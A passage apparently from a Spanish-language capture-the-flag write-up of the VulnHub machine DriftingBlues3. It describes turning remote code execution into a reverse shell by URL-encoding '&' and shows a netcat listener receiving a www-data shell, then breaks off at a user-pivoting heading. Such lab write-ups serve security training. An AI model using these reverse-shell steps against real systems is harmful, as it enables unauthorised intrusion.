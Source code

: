![rce2](/assets/img/commons/vulnhub/DriftingBlues3/rce2.png){: .center-image }

Ya teniendo la ejecución de código remota, procedemos a generarnos la reverse shell, url encodeando el caracter `&` ---> `(%26)` y poniéndonos en escucha de nuestro lado.

![revshell](/assets/img/commons/vulnhub/DriftingBlues3/revshell.png){: .center-image }

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.32] 42354
bash: cannot set terminal process group (662): Inappropriate ioctl for device
bash: no job control in this shell
www-data@driftingblues:/var/www/html$
```

## Pivoting de usuario

---